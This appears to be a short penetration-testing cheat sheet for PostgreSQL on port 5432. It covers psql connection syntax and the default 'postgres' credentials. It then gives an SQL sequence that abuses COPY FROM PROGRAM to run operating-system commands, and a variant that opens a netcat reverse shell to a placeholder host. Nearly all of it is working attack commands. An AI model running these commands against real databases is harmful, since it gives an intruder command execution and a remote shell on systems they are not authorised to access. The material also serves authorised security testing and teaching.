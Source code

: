 ## TCP 5432 Postgresql  

### Connecting to the database
`psql -h HOST/IP -p PORT -U USER`  

Default username and database are both `postgres`   


### PostGres Commands  
```
show version();

# Comment
--comment
#or
/*comment*/
```
 
### Command Execution in Postgresql  >= 9.3

```
DROP TABLE IF EXISTS cmd_exec;  
CREATE TABLE cmd_exec(cmd_output text);  
COPY cmd_exec FROM PROGRAM 'COMMAND';  
SELECT * FROM cmd_exec;  
```
<i>COMMAND</i> is the command to pass onto the operating system.  
Output of the command is shown after execution of the final SELECT command.  

**For reverse shell**:  
```
DROP TABLE IF EXISTS cmd_exec;  
CREATE TABLE cmd_exec(cmd_output text);  
COPY cmd_exec FROM PROGRAM 'nc HOST/IP PORT -e /bin/sh & 2>/dev/null'; 
SELECT * FROM cmd_exec;  
```
